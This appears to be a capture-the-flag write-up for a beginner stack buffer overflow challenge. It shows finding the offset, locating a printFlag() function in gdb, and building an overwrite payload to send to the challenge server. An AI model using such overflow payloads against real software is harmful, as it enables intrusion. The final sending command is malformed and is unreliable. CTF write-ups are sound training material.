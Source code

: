 # BOF
## Pwn

> Is the key the key?
>
> nc 159.89.194.7 1342

### Files
- bofez

### Analysis
The file provided is a linux binary for participants to test locally
The challenge name suggests that they should attempt a Buffer Overflow exploit.

### Solution
1. Finding the offset
   ```console
   root@mctf:~$ ./bofez
   ```
   Spam "A"s as input until there is a segmentation fault<br />
   In this challenge, the offset was 71
2. Finding the flag
   Upon disassembling the binary, the printFlag() function can be seen<br />
   ```console
   root@mctf:~$ gdb bofez
   ```
   To find the memory address of the printFlag() function, use ```info functions```<br />
   > printFlag() : 0x401192
3. Convert the memory address
   Convert the hexadecimal memory address to Little-Endian format<br />
   > \x92\x11\x40
4. Crafting the payload
   With the offset and memory address of the printFlag() function, craft the payload<br />
   ```console
   root@mctf:~$ python -c "print 'A' * 71 + '\x92\x11\x40'" > payload
   ```
   ```console
   root@mctf:~$ echo payload > nc 159.89.194.7 1342
   ```
